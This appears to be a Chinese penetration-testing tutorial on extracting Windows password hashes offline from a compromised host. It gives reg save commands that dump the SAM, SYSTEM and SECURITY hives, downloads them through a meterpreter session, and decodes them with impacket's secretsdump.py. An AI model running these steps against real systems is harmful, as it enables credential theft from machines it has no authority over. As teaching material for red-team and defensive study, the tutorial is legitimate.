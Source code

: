 ```yaml
---
title: 56、离线提取目标机hash
date: 2019-09-21 19:05:40
comments: true
categories: 
 - Micro8系列
---
```



很多环境下，不允许上传或者使用 mimikatz。而针对非域控的单机离线提取 hash 显得尤为重要。

在 meterpreter shell 命令切到交互式 cmd 命令。  
![](../do/media/647ac3d1d83b7d7711b2cfd0ce18f1d5.jpg)

reg save 方式使得需要下载的目标机hash文件更小。  
* reg save HKLM\SYSTEM sys.hiv  
* reg save HKLM\SAM sam.hiv  
* reg save hklm\security security.hiv  

![](../do/media/cebaa1fc93231bc1aaf7738c222b5ac6.jpg)

![](../do/media/f2dc08a2bd64fc29ec0189933b4442dc.jpg)

meterpreter下自带download功能。  

![](../do/media/336cd95e4be157c266efcd04d9ddc064.jpg)

![](../do/media/3f2d037ed7ac0197c01e95b7651fad41.jpg)

### 离线提取：

本季用到的是 impacket 的  secretsdump.py。Kali默认路径：`/root/impacket/examples/secretsdump.py`

**命令如下：**
```code
root@John:/tmp# python /root/impacket/examples/secretsdump.py ‐sam sam.hiv ‐security security.hiv ‐system sys.hiv LOCAL
```
![](../do/media/ced7254cc160ced11f2f3f512df53aec.jpg)


>   Micropoor
